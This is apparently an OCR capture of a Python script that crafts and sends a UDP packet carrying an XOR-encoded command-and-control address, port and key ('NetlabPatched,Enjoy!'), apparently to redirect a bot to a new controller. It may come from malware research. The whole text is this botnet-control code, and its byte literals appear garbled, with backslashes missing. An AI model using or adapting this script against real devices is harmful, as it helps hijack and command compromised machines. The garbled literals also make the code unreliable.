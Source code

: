 ```
import random
import socket

def crc16(data: bytearray, offset, length):
  if data is None or offset < 0 or offset > len(data) - 1 and offset + length > len(data):
    return 0
  crc = 0xFFFF
  for i in range(0, length):
    crc ^= data[offset + i] << 8
    for j in range(0, 8):
      if (crc & 0x8000) > 0:
        crc = (crc << 1) ^ 0x1021
      else:
        crc = crc << 1
  return crc & 0xFFFF

def Gen_payload(ip:str,port:int):
    out=bytearray()
    part1=random.randbytes(92)
    sum=crc16(part1,8,84)
  
    offset1=sum % 0xc8
    offset2=sum % 0x37
    padding1=random.randbytes(offset1)
    padding2=random.randbytes(8)
    
    
    host=socket.inet_aton(ip)
    C2=bytearray(b'x01')
    C2+=host
    C2+=int.to_bytes(port,2,byteorder="big")
    key=b'NetlabPatched,Enjoy!'
    C2 = C2+key +b'x00x00'
    c2sum=crc16(C2,0,29)
    C2=C2[:-2]
    C2+=(int.to_bytes(c2sum,2,byteorder="big"))

    flag=0x7f*10
    out+=part1
    out+=padding1
    out+=(int.to_bytes(sum,2,byteorder="big"))
    out+=(int.to_bytes(flag,2,byteorder="big"))
    out+=padding2

    tmp=bytearray()
    for i in range(29):
      tmp.append(C2[i] ^ out[offset2+8+i])
    out+=tmp

    leng=472-len(out)
    lengpadding=random.randbytes(random.randint(0,leng+1))
    out+=lengpadding

    return out
    
payload=Gen_payload('192.168.159.128',6666)
sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
sock.sendto(payload,("192.168.159.133",2345))  # 任意端口

```

Go to Source
